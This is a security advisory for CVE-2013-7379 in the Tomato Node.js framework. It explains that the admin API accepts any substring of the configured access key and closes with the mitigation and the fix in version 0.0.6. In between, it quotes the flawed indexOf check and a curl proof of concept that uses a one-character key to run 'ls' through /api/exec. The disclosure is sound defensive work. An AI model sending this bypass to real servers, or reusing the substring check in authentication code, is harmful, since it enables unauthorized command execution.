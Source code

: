 ```yaml
---
title:  Tomato API Admin Auth Weakness
author:  Adam Baldwin
module_name: tomato
publish_date: 2013-03-07T21:52:30.192Z
cves: "[{\"name\":\"CVE-2013-7379\",\"link\":\"http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7379\"}]"
vulnerable_versions: "<= 0.0.5"
patched_versions: ">= 0.0.6"
...
```


## Overview
Tomato is a Node.js web framework.

The tomato API has an admin service that is enabled by setting up an access_key in the config options. This access_key is intended to protect the API admin from unauthorized access.

The key is checked by checking to see if the access_key provided in the request is within the configured access_key string, not equal to. So a single character that's within the access key is sufficient to bypass this control.

## Example
This is the snippet of code that does the comparison to authorize requests.

```
if (access_key && config.master.api.access_key.indexOf(access_key) !== -1) {
```

For an access_key that is set to anything that includes the letter 'a' the following request would be authorized.

```
$ curl -X POST "http://localhost:8081/api/exec" -H "Content-Type: application/json" -d @test -H "access-key: a"
{
 "cmd": "ls",
 "path": ".",
 "stdout": "app.js\nconfig.js\nlog\nnode_modules\nserver.js\n",
 "stderr": ""
}
```

## Mitigating factors:

The admin interface is disabled by default. The module author confirmed that the access_key should really be an array of access_keys, however based on variable name and documentation it was not clear that it should be an array. The vulnerability exists only if a string access_key is set.

Module version 0.0.6 has been updated to ensure an array of keys is provided as well as documentation updates.



